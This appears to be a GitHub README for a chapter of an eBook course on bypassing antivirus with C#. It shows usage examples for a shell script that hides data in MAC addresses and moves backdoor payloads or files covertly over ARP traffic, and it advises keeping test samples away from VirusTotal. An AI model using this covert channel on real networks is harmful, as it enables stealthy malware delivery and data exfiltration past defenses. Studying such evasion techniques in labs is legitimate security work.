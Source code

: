 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 8 : Transferring Backdoor Payloads by ARP Traffic

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 8 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH8

Related Video : 

Video 1 C# Code : https://youtu.be/qDLicXj7Vuk

Video 2 (Linux only) Script Code : https://www.youtube.com/watch?v=O-llNZ9S8Mo



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_ARP.sh  help :

Example Step1: (Client Side ) ./NativePayload_ARP.sh -s text-file eth0 delay x"

Example Step2: (Server Side ) ./NativePayload_ARP.sh -a vboxnet target-IPv4 "

example (IPv4 : 192.168.56.101) : ./NativePayload_ARP.sh -s mytext.txt eth0 delay 3"

example (IPv4 : 192.168.56.1) : ./NativePayload_DNS2.sh -a vboxnet 192.168.56.101 "

Description: with Step1 you will inject Data to MAC address for eth0 , with Step2 you can have this text file via Scanning target-system by ARP traffic (Using Arping tool)"

# Note : "NativePayload_ARP.sh" tested by (arping utility, iputils-s20161105 and kali linux 2018.2)

# Note : yeah if you want to use "vboxnet" , it means you will have one bridge between Virtual Machine to Physical Machine ;) lol 

![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x1.png)


![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x2.png)
